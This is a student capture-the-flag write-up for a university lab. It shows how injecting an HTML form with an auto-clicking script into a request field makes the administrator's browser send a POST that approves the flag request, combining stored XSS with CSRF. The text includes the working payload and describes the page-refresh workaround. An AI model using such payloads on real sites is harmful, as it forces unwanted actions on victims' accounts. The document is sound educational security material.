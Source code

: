 # XSS + CSRF

## Clues

In order to carry out this CTF, we were given some clues:

On port 5004 of the server ctf-fsi.fe.up.pt there is a server where we can make a request to the administrator for him to give us access to the flag.
The administrator will accept our request through port 5005 where there are two buttons: one to accept the request and another to reject it. These buttons are disabled for us.
Our page refreshes every 5 seconds and the administrator's response can take up to 2 minutes.

In addition to this context, we are also given two very important tips related to the techniques we should use to solve this CTF:

> - `Cross-site Scripting`: It consists of injecting code into user input. Explore web pages like a regular user and find out what input you can control.
> - `Cross-site Request Forgery`: It consists of, on a page with a given origin, making requests to a page in a different origin. Explore what different pages exist and what requests you want to execute.

## Server

Entering the server on port 5004 we are presented with the following page:

<img src="../docs/ctf6/request.png">

This page has a text input that, after submission, takes us to the following page:

<img src="../docs/ctf6/request4541888198e50dfa3fa15ec02794bd1c57134e6c.png">

This page is the page that refreshes every 5s making it difficult to check its HTML or the requests it makes. However, taking into account the clues provided, we begin to realize that the input of the first page will probably be the place where we should do our code injection.

The second page has a button that allows us to reach the administrator's page:

<img src="../docs/ctf6/admin-request.png">

This page has, as the clue mentioned, two buttons that are disabled for us. Checking the HTML of this page we can see the request that each of the buttons makes:

```html
<form
  method="POST"
  action="/request/b2a22357fbd231437b8875c71dedb9ddebb535f1/approve"
  role="form"
>
  <div class="submit">
    <input type="submit" id="giveflag" value="Give the flag" disabled="" />
  </div>
</form>
```

We quickly verify that the button that interests us is the first one, since it is this one that issues a post method that accepts our request. If we try to execute this request manually, the following page appears to us:

<img src="../docs/ctf6/method-not-allowed.png">

## Attack

Since our goal is for the administrator to issue the post method that accepts our current id, we can do it by inserting a form similar to the one found on port 5005 on the home page of port 5004. The form we made was the following:

```html
<form
  method="POST"
  action="http://ctf-fsi.fe.up.pt:5005/request/2d4cd430aa921d7a0ab7e0ab976d1e978a58dbe8/approve"
  role="form"
>
  <div class="submit">
    <input type="submit" id="giveflag" value="Give the flag" />
  </div>
  <script>
    document.getElementById("giveflag").click();
  </script>
</form>
```

The changes we made to the original form consisted of removing the disabled attribute from the submit button and adding a script that causes the button to be automatically clicked on the administrator's side. 
In this way, the administrator will issue the desired request:

---

Finally, we just have one more problem! The page to which we are redirected after submission in the input has the following script (already mentioned earlier):

```html
<script>
  setTimeout(function () {
    window.location.reload();
  }, 5000);
</script>
```

This script causes a page refresh every 5s, thus refreshing the valid id of our request. To circumvent this problem we can disable javascript in our browser:

<img src="../docs/ctf6/disable-javascript.png">

---

Having said that, we can finally obtain the flag from the following steps:

1. Insert the form on the home page of port 5004;
   <img src="../docs/ctf6/step1.png">

2. After submitting the form in the input, manually refresh the page once our request has been accepted by the administrator;

3. Our flag appears on the screen!
   <img src="../docs/ctf6/step3.png">
